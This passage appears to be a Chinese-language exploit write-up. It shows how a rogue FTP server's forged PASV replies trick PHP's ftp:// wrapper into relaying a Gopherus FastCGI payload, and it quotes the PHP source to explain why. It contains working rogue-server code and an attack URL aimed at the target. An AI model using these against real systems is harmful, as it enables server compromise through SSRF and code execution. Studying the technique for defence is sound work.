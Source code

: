 ```python
client.send(b'220 a\n')
client.send(b'331 a\n')
client.send(b'230 a\n')
client.send(b'220 a\n')
client.send(b'550 a\n')
client.send(f'227 aa ({raddr},0,{rport})\n'.encode()) # 默认 php 会使用 EPSV 命令, 这个只能指定端口, 所以我们需要发送两次 227 让 php fallback 到 PASV 模式
client.send(f'227 aa ({raddr},0,{rport})\n'.encode())
client.send(b'150 Ok\n')
```

```
http://target:8009/?file=ftp://your_server:19133/anything&data={Gopherus 生成的 fastcgi payload}
```


## 产生原因

我们可以在 `ext/standard/ftp_fopen_wrapper.c` 查看到相关源码,
```c
static unsigned short php_fopen_do_pasv(php_stream *stream, char *ip, size_t ip_size, char **phoststart)
{
        char tmp_line[512];
        int result, i;
        unsigned short portno;
        char *tpath, *ttpath, *hoststart=NULL;

#ifdef HAVE_IPV6
        /* We try EPSV first, needed for IPv6 and works on some IPv4 servers */
        php_stream_write_string(stream, "EPSV\r\n");
        result = GET_FTP_RESULT(stream);

        /* check if we got a 229 response */
        if (result != 229) {
#endif
                /* EPSV failed, let's try PASV */
                php_stream_write_string(stream, "PASV\r\n");
                result = GET_FTP_RESULT(stream);

                /* make sure we got a 227 response */
                if (result != 227) {
                        return 0;
                }

                /* parse pasv command (129, 80, 95, 25, 13, 221) */
                tpath = tmp_line;
                /* skip over the "227 Some message " part */
                for (tpath += 4; *tpath && !isdigit((int) *tpath); tpath++);
                if (!*tpath) {
                        return 0;
                }
                /* skip over the host ip, to get the port */
                hoststart = tpath;
                for (i = 0; i < 4; i++) {
                        for (; isdigit((int) *tpath); tpath++);
                        if (*tpath != ',') {
                                return 0;
                        }
                        *tpath='.';
                        tpath++;
                }
                tpath[-1] = '\0';
                memcpy(ip, hoststart, ip_size);
```